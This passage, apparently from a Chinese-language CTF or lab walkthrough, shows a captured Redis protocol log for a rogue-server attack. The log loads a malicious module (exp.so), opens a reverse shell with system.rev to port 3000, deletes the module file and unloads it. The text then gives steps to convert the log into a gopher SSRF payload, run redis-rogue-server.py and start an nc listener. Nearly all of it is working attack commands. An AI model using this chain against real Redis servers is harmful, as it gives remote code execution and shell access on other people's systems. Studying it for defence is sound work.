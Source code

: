 ```
exp.so\r
< 2020/07/20 12:23:45.195646  length=5 from=2721 to=2725
+OK\r
> 2020/07/20 12:23:49.579654  length=40 from=110 to=149
*3\r
$6\r
MODULE\r
$4\r
LOAD\r
$8\r
./exp.so\r
< 2020/07/20 12:23:49.583106  length=5 from=2726 to=2730
+OK\r
> 2020/07/20 12:23:49.583585  length=34 from=150 to=183
*3\r
$7\r
SLAVEOF\r
$2\r
NO\r
$3\r
ONE\r
< 2020/07/20 12:23:49.584298  length=5 from=2731 to=2735
+OK\r
> 2020/07/20 12:23:57.257107  length=46 from=184 to=229
*3\r
$10\r
system.rev\r
$9\r
127.0.0.1\r
$4\r
3000\r
> 2020/07/20 12:23:57.300300  length=56 from=230 to=285
*4\r
$6\r
CONFIG\r
$3\r
SET\r
$10\r
dbfilename\r
$8\r
dump.rdb\r
> 2020/07/20 12:25:27.132319  length=80 from=286 to=365
*2\r
$11\r
system.exec\r
$11\r
rm ./exp.so\r
*3\r
$6\r
MODULE\r
$6\r
UNLOAD\r
$6\r
system\r
```
然后使用脚本`python3 tran2gopher.py socat.log `转换成gohper协议的，最后\r需要替换成%0d%0a
随后启动redis rogue server，`python3 redis-rogue-server.py --lport 2333 -f redis-rce/exp.so`，启动监听3000端口`$ nc -lvvp 3000`
先用curl模拟gopher协议测试是否正确，
